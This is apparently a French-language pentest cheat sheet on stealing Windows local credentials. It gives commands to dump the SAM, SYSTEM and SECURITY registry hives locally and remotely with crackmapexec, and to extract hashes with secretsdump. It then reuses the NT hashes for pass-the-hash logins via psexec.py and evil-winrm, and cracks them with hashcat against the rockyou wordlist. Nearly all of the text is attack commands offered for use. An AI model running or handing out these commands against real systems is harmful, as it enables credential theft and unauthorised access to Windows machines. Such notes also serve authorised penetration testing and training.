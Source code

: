 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Localement
### Récupération de la SAM
```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

## A distance 

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs

### SAM
```
secretdump.py local -sam sam.save -security security.save -system system.save LOCAL
```


## Utilisation des Hash LM:NT
### Accès distant
``` shell 
psexec.py Administrator@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administrator@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
# on peut également utiliser wmiexec.py et smbexec.py ou encore evil-winrm
evil-winrm -i $TARGET_IP -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
